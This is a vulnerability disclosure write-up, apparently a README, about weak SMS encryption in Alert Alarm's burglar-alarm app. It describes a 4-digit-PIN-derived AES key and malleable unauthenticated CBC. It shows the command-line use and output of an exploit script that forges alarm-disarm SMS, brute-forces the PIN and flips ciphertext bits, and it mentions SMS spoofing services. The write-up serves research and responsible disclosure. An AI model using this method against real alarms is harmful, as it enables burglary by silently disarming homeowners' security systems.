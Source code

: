 Alert Alarm SMS exploit
#######################
Author: Joakim Bech, 2019-06-21

.. contents:: Table of Contents

tl;dr;
******
- Alert Alert is a Swedish company selling burglar alarms (with various
  possibilities for extensions) to home owners. On one of their pages [1_],
  they are saying that: "Our burglar alarms for home owners communicate using
  an encrypted channel primarily using GSM and secondarily using SMS".

- It turns out that Alert Alarm have weaknesses in their SMS implementation
  that turns on/off alarms when using the Alert Alarm app (tested on Android).

  - Using AES-CBC which is malleable.
  - No integrity protection of the encrypted message.
  - Heavily reduced key space, from 128-bits to 9999 keys.
  - Doesn't use any device unique values/properties in the data being sent to
    the Alert Alarm server.
  - No key derivation function in use (KDF).
  - No key exchange protocol in use (like Diffie Hellman for example).

- This makes the security of the implementation very fragile, since all it
  takes for a rouge user is to get hold of a **single** SMS generated by the
  Alert Alarm app. When the attacker got that he can easily figure out the code
  used to turn on/off the burglar alarm. Using free services one can send
  `spoofed SMS`_ with manually crafted data.

- On this page, there is a script that can decrypt Alert Alarm SMS and also
  create SMS. It's also capable of finding a key using a brute force attack and
  it's also possible to flip bits to change the original intention with the SMS.

Observation
***********
This work started out when I noticed that when turning off an active alarm
(``ARMED_HOME``) using the Android app, a SMS is created similar to this.

.. figure:: images/aa_initial_sms.png
        :figclass: align-center


After reverse engineering the Android app one can see that the 64 bytes hex
string is made up of two parts. The first part is the IV, which is a random
number (coming from ``SHA1PRNG``) and the second part is the actual message.

.. code-block:: none

           32 bytes   32 bytes
        +-----------+----------+
        | IV        | Message  |
        +-----------+----------+

The encryption in use is AES-CBC with a 128-bit key. However, the key used for
encryption are made up of strings like this:

.. code-block:: none

        000000000000xxxx

Where "xxxx" is the pin code. This means the key space is heavily reduced from
128-bits, to only 9999 combinations(!). This is also plain AES-CBC, so no
integrity protection or anything, more about that further down.

Message format
==============
The format of the decrypted message is as follows:

.. code-block:: none

        Bytes:            1   1   1      2       1     2        2        2         2          2   = 16 bytes
                +-----------+---+---+------+---------+-----+------+--------+---------+----------+
                |SMS Version| i | j | year | month-1 | day | hour | minute | user id | \x00\x00 |
                +-----------+---+---+------+---------+-----+------+--------+---------+----------+
                                              (hex)

Here ``i`` is the alarm on (0) off (1) and ``j`` is (TODO).


Unconfirmed potential issues
****************************
- Is the solution susceptible to reply attacks? Is is possible to send the same
  message more than once? (TODO, this should be easy to verify).

- Will the server detect brute force attacks. I.e., can one send 9999 SMS in a
  short amount of time and thereby gain access to someones house?

Open questions
**************
- Why leverage on SMS from the app, when there already must be a data connection
  with the app? This means that it probably works something like this.
  - a) The SMS is sent to the server.
  - b) The server decrypts the SMS, checks the parameters, record the action
    and send out a request (using GSM) to the home owner main unit controlling
    the alarm.
  - c) When the alarm has been armed/disarmed, the Android app gets a
    notification of the updated status.
  Why on earth using SMS at all?


Script usage
************
Calling with script with no arguments lists all possible parameters. But to
make it easier to follow along, we've put together a couple of examples below.

Generate a SMS from scratch
===========================
This takes a default data string and creates a valid SMS string, i.e, a real
usable string that will turn on or off the alarm.

.. code-block:: bash

        $ ./aaxploit.py -e -p 1234
        [INFO]: Mode: encryption
        [INFO]: Original SMS:     False
        [INFO]: Msg:              32303131393532313039303230310000
        [INFO]: IV:               324e8a68e383f8d6f3117af17d7638fb
        [INFO]: Crafted SMS:      324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713
        

.. _decrypt_sms:

Decrypt a SMS from the phone
============================
As an example, take the crafted SMS from the example above (having that said,
copy a SMS string from a phone works just as well). In this example we already
know the pin code to turn on/off the alarm and provide that as a parameter.

.. code-block:: bash

        $ ./aaxploit.py --input 324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713 -d -p 1234
        [INFO]: Mode: decryption
        [INFO]: Original SMS:     324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713
        [INFO]: Msg:              6cee18510bd876b03b6131eddedb2713
        [INFO]: IV:               324e8a68e383f8d6f3117af17d7638fb
        [INFO]: | sms_v | i | j | year | month | day | hour | minute | user_id |
        [INFO]:       2   0   1     19     0x5    21     09       02        01

Brute force an encrypted SMS
============================
Here we pretend that we don't know the key (i.e., the pin code to turn on/off
the alarm), but we have gotten hold of the encrypted SMS. By running the brute
force attack we try to find the correct key and pin to turn on/off the alarm.
Due to the nature of the encoded message, this always works and since the key
space is very small, it finds the key/pin in less than a second.

.. code-block:: bash

        $ ./aaxploit.py --input 324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713 -d -b
        [INFO]: Mode: decryption
        [INFO]: Original SMS:     324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713
        [INFO]: Msg:              6cee18510bd876b03b6131eddedb2713
        [INFO]: IV:               324e8a68e383f8d6f3117af17d7638fb
        [INFO]: Running bruteforce ...
        [INFO]: Probably the correct key: 30303030303030303030303031323334 gives pin: 1234

As we can see, we found the correct key/pin code! Note that the pin code is the
same as used on the real physical burgular alarm at the owner house. I.e., if a
thief break in he can enter this pin code and the alarm never goes off.

Flip a bit in the encrypted message
===================================
Since AES-CBC is malleable_, we can flip a bit in the IV which will be directly
reflected on the decrypted message. I.e., a man in the middle can use this to
either change a message from "Turn on alarm" to a "Turn off alarm" or vice
versa. Notice that here one doesn't even have to decrypt the message, i.e, by
just taking the original message and flip a bit and use the modified SMS is
enough to turn off (or turn on) the alarm.

.. code-block:: bash

        $ ./aaxploit.py --input 324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713 -d --flip 112 
        [INFO]: Mode: decryption
        [INFO]: Original SMS:     324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713
        [INFO]: Msg:              6cee18510bd876b03b6131eddedb2713
        [INFO]: IV:               324e8a68e383f8d6f3117af17d7638fb
        [INFO]: Modified SMS:     324f8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713

If we take the "Modified SMS" and decrypt it, we can see that the "i" field has
been changed (from "0" to "1", compare with message above, see
:ref:`decrypt_sms`).

.. code-block:: bash

       $ ./aaxploit.py --input 324f8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713 -d -p 1234 
       [INFO]: Mode: decryption
       [INFO]: Original SMS:     324f8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713
       [INFO]: Msg:              6cee18510bd876b03b6131eddedb2713
       [INFO]: IV:               324f8a68e383f8d6f3117af17d7638fb
       [INFO]: | sms_v | i | j | year | month | day | hour | minute | user_id |
       [INFO]:       2   1   1     19     0x5    21     09       02        01
                        /\
                         |----- changed from 0 to 1

Summary
*******
The security of the solution relies on

1. the pin code and

2. the SMS senders phone number

3. that no-one is able to get hold of the SMS sent.

In fact, one can argue that **the security only relies on "3"**, since if one
get hold of "3", then it's trivial to figure out "1", that is basically what the
script ``aaxploit.py`` does. "2" on the other hand is typically available in
phone books etc, i.e., it's usually not hard to figure out the phone numbers to
the owner of a house.

Alert Alarm seems to have tried to "lock" the SMS service to a set of users.
I.e., the first user have to add additional phone number before these people can
use the app. So at first glance, one might believe that it's only the owners of
these phone numbers who can send the SMS. But the fact is that there are many
services out there that allow you to send `spoofed SMS`_ so it looks like they
were sent from a certain phone number. I.e., it's totally possible to craft a
SMS using ``aaxploit.py`` and then use one of these services to send a rouge
SMS. I.e., any user can turn of the alarm without the alarm owner knowing about
it.

**Should the owners of this alarm be worried?** Getting an SMS from the home
owner is probably a bit challenging, so it's probably a bit hard to actually do
the attack, at least if Alert Alarm hopefully notices brute force attacks on the
receiving side of the SMS. But, the flaws identified are quite serve, an I don't
want my burglar alarm to have these kind of weaknesses.

This document and the script will has been sent to Alert Alarm 2019-06-xx and
after 90 days disclosure time this will be made public.

.. _1: https://www.alertalarm.se/hemlarm/garanti-och-funktion.html#1
.. _malleable: https://en.wikipedia.org/wiki/Malleability_(cryptography)
.. _spoofed sms: https://www.google.com/search?q=send+spoofed+sms&oq=send+spoofed+sms
